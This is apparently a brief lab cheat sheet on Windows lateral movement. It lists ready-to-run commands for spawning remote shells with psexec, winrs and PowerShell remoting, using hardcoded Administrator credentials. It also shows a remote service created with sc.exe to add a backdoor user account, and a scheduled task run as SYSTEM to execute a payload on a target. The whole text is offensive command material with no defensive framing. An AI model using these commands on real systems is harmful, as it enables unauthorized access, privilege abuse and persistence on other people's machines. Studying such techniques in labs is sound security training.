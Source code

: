 # Processes
Spawn processes remotely to interact with other machines

## Psexec
* psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe

## Winrm
* winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
* $username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
* Enter-PSSession -Computername TARGET -Credential $credential
* Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}

## sc
### Create a service
* sc.exe \\TARGET create Myservice binPath= "net user munra Pass123 /add" start= auto
* sc.exe \\TARGET start Myservice
* sc.exe \\TARGET stop THMservice
* sc.exe \\TARGET delete THMservice

## SCHTASK
* schtasks /s TARGET /RU "SYSTEM" /create /tn "Mytask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 
* schtasks /s TARGET /run /TN "Mytask1"
* schtasks /S TARGET /TN "Mytask1" /DELETE /F
